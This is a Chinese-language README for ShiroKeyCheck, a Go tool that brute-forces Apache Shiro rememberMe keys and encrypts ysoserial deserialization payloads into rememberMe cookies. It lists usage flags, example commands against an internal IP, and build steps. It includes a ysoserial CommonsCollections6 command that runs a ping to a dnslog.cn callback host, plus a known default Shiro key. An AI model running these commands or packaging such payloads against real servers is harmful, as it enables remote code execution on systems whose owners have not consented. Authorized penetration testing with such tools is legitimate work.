

# Shiro key检测
golang 开发，多平台支持。

为了适应不同目标不同网络情况，增加了多种http请求参数，如：指定请求超时时间、每次请求间隔时间、http代理。

内置了129个key，默认支持AES-CBC和AES-GCM两种模式检测。

支持对ysoserial 生成的payload进行加密，生成rememberMe字段，进行利用。

## 用法

```
Usage of ./ShiroKeyCheck:
  -content string
    	指定当是POST方法时 body里的内容
  -interval int
    	每个请求的间隔时间(s)
  -key string
    	指定key进行检测（默认CBC和GCM都会检测）
  -m string
    	指定请求方法 (默认是 "GET")
  -mode string
    	指定加密模块CBC或GCM  (只对-ser参数有效)
  -proxy string
    	设置http代理 e.g. http://127.0.0.1:8080
  -ser string
    	payload的字节码文件（可通过ysoserial生成）
  -timeout int
    	请求超时时间(s) (default 60s)
  -u string
    	目标url（必须）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
```
### key检测

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp`


### 设置代理和请求间隔

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`



### 对ysoserial生成的payload 进行加密

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`


## 编译

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```


